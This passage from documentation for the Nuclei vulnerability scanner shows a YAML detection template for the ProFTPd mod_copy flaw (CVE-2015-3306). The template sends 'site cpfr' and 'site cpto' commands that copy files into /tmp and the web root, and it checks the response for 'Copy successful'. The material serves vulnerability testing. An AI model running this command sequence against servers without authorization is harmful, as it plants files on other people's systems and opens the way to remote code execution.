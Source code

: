 ## **Multi-Step Requests**

This last example is an RCE in proFTPd which, if vulnerable, allows placing arbitrary files in any directory on the server. The detection process involves a random string on each nuclei run using **`{{randstr}}`**, and sending multiple lines of FTP input to the vulnerable server. At the end, a successful match is detected with the presence of **`Copy successful`** in the response.

```yaml
id: CVE-2015-3306
info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

tcp:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful"
```